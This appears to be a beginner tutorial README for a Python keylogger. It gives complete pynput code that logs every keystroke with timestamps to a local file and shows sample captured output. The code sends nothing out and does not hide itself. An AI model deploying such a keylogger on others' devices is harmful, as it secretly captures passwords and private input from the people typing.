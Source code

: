 # KEYLOGGER
Simple Keylogger Project for Beginners.

STEP 1 : First Install the pynput library using the [pip install pynput] command.

STEP 2 : Now importing the required packages 

                                              from pynput.keyboard import Key, Listener
                                              import logging
                                              
STEP 3 : Now specify the path where log file will be stored. Here log file inculdes all the keystrokes the user in entering after running the program.

                                              log_dir = r"E:\courses\Keylogger"
                                              logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                   
STEP 4 : Now in the last step create Listner instance and define the on_press() in it and join it with the main program.

                                              with Listener(on_press=on_press) as listener:
                                              listener.join()
                                              
The Final Program should look like this :-> 

                                            import pynput
                                            from pynput.keyboard import Key, Listener
                                            import logging
                                            log_dir = r"E:\courses\Keylogger"
                                            logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                            def on_press(key):
                                               logging.info(str(key))
                                            with Listener(on_press=on_press) as listener:
                                                listener.join()
                                                
STEP 5 : Now, to check the output of the program, run it and type some random keys and open your log file

2023-01-31 23:16:33,756: 'd'
2023-01-31 23:16:33,944: 'k'
2023-01-31 23:16:34,070: 'd'
2023-01-31 23:16:34,164: 'l'
2023-01-31 23:16:34,211: 's'
2023-01-31 23:16:34,507: 'l'
2023-01-31 23:16:34,574: 'e'
2023-01-31 23:16:34,628: 'k'
2023-01-31 23:16:34,875: 'k'
2023-01-31 23:16:35,093: 'c'
2023-01-31 23:16:35,143: 'm'
2023-01-31 23:16:35,279: 'd'
2023-01-31 23:16:35,477: 'f'
2023-01-31 23:16:35,509: 'c'
2023-01-31 23:16:35,619: 'e'
2023-01-31 23:16:42,167: Key.delete
